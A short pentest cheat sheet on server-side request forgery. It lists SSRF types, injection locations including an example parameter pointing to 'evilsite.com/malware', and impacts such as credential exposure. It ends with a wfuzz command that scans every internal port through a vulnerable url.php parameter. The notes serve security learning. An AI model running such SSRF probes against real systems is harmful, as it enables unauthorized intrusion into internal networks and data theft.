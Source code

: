 # Types:

### 1: Regular

### 2: Blind

# Locations:

### 1: When a full URL is used in a parameter in the address bar (https://site.com/form?server=http://evilsite.com/malware)

### 2: A hidden field in a form (View page source)

### 3: A partial URL such as just the hostname

### 4: Only the path of the URL

# IMPACT

### 1: Access to unauthorized areas

### 2: Access to customer/organizational data

### 3: Ability to scale to internal networks

### 4: Reveal authentication tokens/credentials

# Check for internal services on a machine via SSRF

#### wfuzz -c -z range,1-65535 http://TARGET_IP/url.php?path=127.0.0.1:FUZZ
